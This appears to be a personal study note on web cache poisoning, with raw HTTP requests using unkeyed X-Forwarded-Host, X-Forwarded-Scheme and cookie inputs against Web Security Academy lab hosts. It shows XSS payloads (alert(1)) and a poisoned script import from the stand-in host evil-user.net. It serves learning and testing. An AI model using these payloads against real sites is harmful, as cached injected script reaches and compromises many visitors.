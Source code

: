 [[Cache poisoning]]

# Exploit design flaws
Exploitation web cache poisoning vulnerabilities by manipulating typical unkeyd inputs, such as HTTP headers and cookies.
## [[XSS]]
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

`X-Forwarded-Host` header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. It's also often unkeyed.
#### Poison example:
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

## Unsafe handling of resource imports
```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

## Cookie-handling vulnerabilities
Cookies are not included in the cache key.
Example:
```HTTP
GET / HTTP/2
Host: 0a3a00d8046d91ef80cce42100ef002e.web-security-academy.net
Cookie: fehost=prod-cache-01"}%3balert(1)//; session=QfTJLIM9bSLO6dLu6DjpBGIpdEaMRwEA
```

## Multiple headers
Example:
```http
GET /resources/js/tracking.js HTTP/2
Host: 0aa100d70367a08c80fb535000060064.web-security-academy.net
X-Forwarded-Host: exploit-0a05009b0370a021800b52c9014200a4.exploit-server.net
X-Forwarded-Scheme: http
```
If scheme is http, then redirect to `scheme://host`
